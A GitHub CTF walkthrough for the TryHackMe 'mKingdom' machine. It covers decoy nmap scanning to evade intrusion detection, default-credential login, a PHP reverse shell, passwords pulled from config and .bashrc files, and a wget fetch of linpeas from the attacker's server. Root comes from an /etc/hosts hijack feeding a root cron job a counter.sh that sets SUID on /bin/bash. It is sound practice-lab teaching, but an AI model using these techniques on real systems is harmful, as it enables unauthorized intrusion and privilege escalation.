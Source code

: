 ![intro](https://github.com/user-attachments/assets/352398d3-7036-426f-8735-18b607e1f22e)

# tryhackme-CTF-writeup-for-mkingdom

This is a walkthrough for the tryhackme CTF mkingdom. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a webserver on port 85:

![nmap](https://github.com/user-attachments/assets/6e9260bd-2c0f-4f72-ae61-0feece3a008a)

Visiting this webserver we see this image of Bowser:

![bowser](https://github.com/user-attachments/assets/5027b68b-1510-432f-8e82-b2b9824a84b5)

Using exiftool on the image reveals that the creater is b0ws53r. 

![exif](https://github.com/user-attachments/assets/6a372813-6216-499a-ad9f-8851eb1d1d98)

Let's run a gobuster and nikto scan on the target:

![gobuster + nikto](https://github.com/user-attachments/assets/52b6696d-72fa-4069-a95e-885787ab9668)

The scans reveal a directory call /app. At first this brings us to a button called jump, and after clicking it a few times, it takes us to toad's expensive website. Let's examine the source code:

![source](https://github.com/user-attachments/assets/5ad9209e-80cc-43d8-9c73-90a87896a060)

The code reveals that the site is using concrete5 8.5.2. I did a little research on exploited this and came across this article on hackerone.com:

![concrete exploit](https://github.com/user-attachments/assets/5d16a8c7-a37d-4bd8-89a7-c5f03afb8414)

I tried a some typical default username and password combos and admin:password worked for the login. Now, we're going to follow the steps described in the hackerone article to change file properties to allow php, and upload a php reverse shell. 
And we now have a reverse shell as www-data!

![www-data](https://github.com/user-attachments/assets/d8d732b3-4ee2-4e56-82e9-45ce03d92f6f)

# Privilege Escalation
I then searched around the home directory but permission is denied for the directories. So, I headed back to www-data's home, and started looking around for useful files. We saw from the source code earlier that the web server is built off of the /app/castle/application. I then found the directory config. It's always a good idea to check the config directory to see if there is senitive info. And the file database.php contains a password for toad.

![su toad](https://github.com/user-attachments/assets/b40596f7-8cfd-43f0-8a4e-dbe45cf34f3f)

I ran sudo -l as toad but toad can't run sudo on this machine. Let's head to /home/toad and see what we can find. smb.txt contains a message from mario:

![smb txt](https://github.com/user-attachments/assets/7d4d89b6-9751-4d8e-8e88-6182f2c6e284)

It's always a good idea to check files such as .bash_history and .bashrc to look for senitive info. I checked out .bashrc and noticed a PWD_token that appears to be base64 encryped.

![bashrc](https://github.com/user-attachments/assets/8515dba8-aebf-456d-83b2-680b1b3952ec)

I was then used this password to su mario:

![su mario](https://github.com/user-attachments/assets/ede5ede8-50dd-48e7-98ca-234218844851)

Now, let's head to /tmp, and run linpeas. I ran a python server from kali:
```bash
python3 -m http.server
```
And wget from mario:
```bash
wget http://<your IP>:8000/linpeas.sh
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh >> output
```

I didn't many concrete things that we could use, other some files that we have access to, like the /etc/hosts file. 
It's also interesting that toad has /bin/cat:

![bin_cat](https://github.com/user-attachments/assets/113baa75-f33d-46d7-b107-a2e2e38b4cf8)

We also see that mario has write access to /etc/hosts file:

![linpeas_etc_hosts](https://github.com/user-attachments/assets/897b47cb-db6b-445c-8112-cad10924157d)

# Exploitation
Let's use pspy to see if we can find processes to exploit:

![pspy64](https://github.com/user-attachments/assets/db94d3b3-e0b9-4ccb-ad6d-3d1a76525d1d)

This process looks like something we can exploit:

![pspy counter sh](https://github.com/user-attachments/assets/824d5ffd-a36a-494e-b15f-d8b8d9ca57d7)

This command starts by downloading the script (counter.sh) from a (mkindom.thm:85).
The downloaded script is then passed to bash for execution.
The output produced by the script execution is appended to the log file located at /var/log/up.log.
This type of command, which downloads and executes a script from the internet without verification, can be very dangerous. As we saw earlier, we have access to /etc/hosts, se we can pontenially execute malicious code. 

First, let's check out that /etc/hosts file:

![etc_hosts](https://github.com/user-attachments/assets/5fb19660-513b-40ae-8711-197105da5953)

The next file to check out is the script in the process command counter.sh:

![counter sh_up log](https://github.com/user-attachments/assets/e9c5459d-3986-4fa8-9a6c-e64e733fd637)

So we don't have write access to counter.sh or up.log. But what we can do, is modify the /etc/hosts file to change the IP of mkingdom.thm:85 to point to our IP. This way, we can make our own counter.sh script and trick the target into executing, as root. So, once the target executes the script, it should give us a reverse shell as root.

The first step will be to modify the /etc/hosts file to point to our IP. I found the easiest way to do this is copy the contents of the /etc/host file onto kali, because using nano and editing the file on the target was finicky and hard to see what I was doing, change the mkingdom IP to ours, and copy the contents back into the targets /etc/hosts file.
The modified /etc/hosts file should look like this except with the mkingdom IP pointing to the IP of your attack box:

![modified _etc_hosts](https://github.com/user-attachments/assets/2e6104b5-5c7b-4551-8bd0-f86e186fc22c)

Next, on our attack box, create a script replicating counter.sh complete with the file path. 
First, create the directory:
```bash
mkdir -p /tmp/app/castle/application
```
Then create a bash script for counter.sh. This script will set the SUID bit on /bin/bash binary:
```bash
#! /bin/bash/env bash

chmod 4755 /bin/bash
```
Then set up the sever on port 85 directing to our counterfit counter.sh:
```bash
sudo python3 -m http.server 85 --directory /tmp
```

![server_counter sh](https://github.com/user-attachments/assets/8bb05441-3bf7-4078-8fa3-6223e52caa14)

Now we should see the cron job coming from our target IP making a GET request to our counter.sh with a 200 status.

Then as mario, we can run this command to check the /bin/bash:
```bash
ls -l /bin/bash
```
Then, run this command as mario to bash with the SUID privileges:
```bash
/bin/bash -ip
```

![cat_root txt](https://github.com/user-attachments/assets/3f5a0cc5-0c26-43c9-8254-615f495f2dbc)

And we are now root!
